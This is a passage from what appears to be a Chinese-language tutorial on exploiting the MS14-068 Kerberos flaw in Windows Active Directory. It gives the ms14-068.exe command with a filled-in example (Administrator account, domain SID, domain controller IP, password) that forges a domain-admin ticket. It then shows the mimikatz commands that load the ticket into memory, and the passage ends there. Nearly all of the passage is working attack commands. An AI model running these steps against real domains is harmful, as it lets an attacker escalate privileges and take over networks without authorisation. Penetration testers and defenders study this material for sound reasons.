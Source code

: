 ### ③漏洞利用

#### 1、生成域控管理员密钥

```bash
使⽤现成的脚本来获取票据：
ms14-068.exe -u <⽤户名@域名> -s <SID> -d <ip 地址> -p <⽤户密码>

MS14-068.exe -u Administrator@MAO.COM -s S-1-5-21-863777703-696496247-1862912240-500 -d 192.168.126.10 -p Admin@123
```

[![](assets/1706958938-49363d4e3c11261befe682072fa18f66.png)](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172311027-1846755783.png)

#### 2、将内存中导入生成好的票据

然后使⽤ mimikatz 的 `kerberos::ptc` 模块来载⼊票据。

```bash
mimikatz.exe
privilege::debug
kerberos::ptc TGT_Administrator@MAO.COM.ccache
```
